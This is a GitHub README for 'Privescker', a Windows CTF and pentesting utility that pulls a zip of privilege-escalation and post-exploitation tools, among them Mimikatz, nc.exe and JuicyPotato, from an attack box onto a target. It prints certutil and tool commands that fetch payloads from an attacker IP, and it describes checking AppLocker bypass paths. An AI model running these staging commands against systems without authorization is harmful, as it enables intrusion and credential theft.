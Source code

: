 # Privescker

**Advisory**

All the binaries/scripts/code of Privescker should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *

**What is Privescker?**

This was a tool I created to make life easier when doing CTF exercises on Windows machines. Initially I created Privescker to embed a number of binaries which would be dumped onto the target when executed. However, I thought a way of making it more customisable without recompiling every time you want a new binary I made this version posted here.

Privescker is a single binary that will download a single **zip** file containing all of your favourite Windows enumeration tools and scripts and then extract them on the target.

**Now you may think - why bother with the binary and just extract the zip yourself?**

It's not that simple. In a cmd shell it's a pain in the backside especially on older versions of Windows. PowerShell is doable but you may have instances where PowerShell is limited or not available at all.

**Other things it can do**

I have also built in the functionality to pass an argument and check AppLocker bypass locations to see whether you have write access to them. This is very handy when working on restrictive boxes.

```
privescker.exe -p
```

I have more planned for future released such as building your zip files and getting the latest versions of specific tools for you depending on user configs and other ideas. More to come on this in future.

**The manual way**

We all know the manual way of dumping files onto Windows is quite laborious, especially in older versions of Windows such as:
```
certutil -urlcache -f http://10.10.14.12:8000/enum.exe c:\users\public\enum.exe
```
Now multiply that by all the scripts, enum and post exploitation tools you want on the machine and it becomes time consuming.

**The Privescker way**

Once the privescker.exe binary is on the machine:
```
privescker.exe -u http://10.10.14.12:8000/enum-tools.zip -p c:\users\public
```

Then all your files you need to move to Windows will be dumped to the location you chose.

**Notes**

This is probably not advised on pentests as I'm sure AV will light up like a Christmas tree with all the different scripts and tools being extracted on the machine.

**Usage**

First you will need to get all your common and favourite tools and scripts and add them to a zip file on your attack machine (you can add subfolders within your zip if you please).

Personally here are some of the ones I have:
- accesschk.exe
- jaws.ps1
- nc.exe
- plink.exe
- PowerUp.ps1
- Seatbelt.exe
- SharpHound.exe
- SharpHound.ps1
- Sherlock.ps1
- Watson.exe
- winPEAS.bat
- winPEAS.exe
- JuicyPotato.exe
- PrintSpoofer.exe
- RunAsUser.exe
- Mimikatz.exe
- wget.exe

The choice is yours, add what you want.

The next step is to set up a webserver on your attack box, for example:
```
python -m SimpleHTTPServer
```

Now from your Windows shell, download privescker.exe;

```
certutil -urlcache -f http://10.10.14.12:8000/privescker.exe c:\users\public\privescker.exe
```

Leaving your webserver running, just execute privescker like this to get all your favourite tools.

```
privescker.exe -u http://10.10.14.12:8000/enum-tools.zip -o c:\users\public
```

That is literally it - small simple tool to make life easier with getting all your common enumeration, privesc and post exploitation tools on the machine for you in one go.

Hope others find it helpful.

Feel free to use the Release version or compile it yourself if you prefer.

:-)

**Screenshots**

Help menu:

![](/screenshots/help.png)

Print AppLocker writable bypass locations:

![](/screenshots/printpaths.png)

Executing the tool:

![](/screenshots/running.png)

Showing the output:

![](/screenshots/dir.png)






